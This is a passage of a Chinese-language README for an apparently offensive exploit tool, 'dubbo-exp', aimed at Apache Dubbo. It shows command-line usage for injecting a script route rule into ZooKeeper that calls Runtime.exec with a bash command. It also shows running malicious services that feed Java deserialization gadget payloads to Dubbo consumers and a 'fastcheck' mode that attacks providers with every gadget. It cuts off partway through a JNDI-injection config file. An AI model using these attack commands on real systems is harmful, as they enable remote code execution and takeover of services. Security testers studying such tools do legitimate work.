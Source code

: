 例（通过在zookeeper注入脚本，实现攻击客户端consumer）：
```
-registry
zookeeper
-registryURL
127.0.0.1:2181
-route
script
-rule
"s=[3];s[0]='/bin/bash';s[1]='-c';s[2]='open -a calculator';java.lang.Runtime.getRuntime().exec(s);"
-routeDeleteTtl
5
```
### 3.3. 快速检测
#### 3.3.1. 恶意服务-被动攻击（攻击客户端consumer）
PS：使用被动攻击快速检测办法，有多少个gadget就会打开多少个恶意服务端口（因为客户端存在失败记录，不会再连接），
每个端口返回一种gadget恶意序列化数据，等待客户端连接上来，会比较慢，就是视业务调用频率和心跳，所以，建议使用单个gadget精准打击。

例（使用恶意服务快速被动攻击dubbo客户端）：
```
-e
-evilHost
127.0.0.1
-evilPort
44444
--serialization
java
--wait
5000
-f
/Users/xuanyonghao/security/java/my-project/dubbo-exp/check.data
```

例（使用恶意服务并主动篡改zookeeper，快速主动攻击dubbo客户端）：
```
-e
-evilHost
127.0.0.1
-evilPort
44444
-registry
zookeeper
-registryURL
127.0.0.1:2181
--serialization
java
--wait
5000
-f
/Users/xuanyonghao/security/java/my-project/dubbo-exp/check.data
```
#### 3.3.2. 快速主动攻击（攻击服务端provider）
例（快速攻击检测，若不指定序列化类型，则全部gadget都会尝试）：
```
java -jar dubbo-exp.jar
--target 127.0.0.1:20881 
--fastcheck /Users/threedr3am/dubbo-exp/check.data
```
check.dat预置参数文件内容：
```
### 快速漏洞攻击参数配置（将会根据相应匹配的参数选择对应的所有gadget攻击）
### 多个参数英文逗号分割

#JNDI注入url，JNDI注入需要考虑对方jdk版本，若是jdk8，
```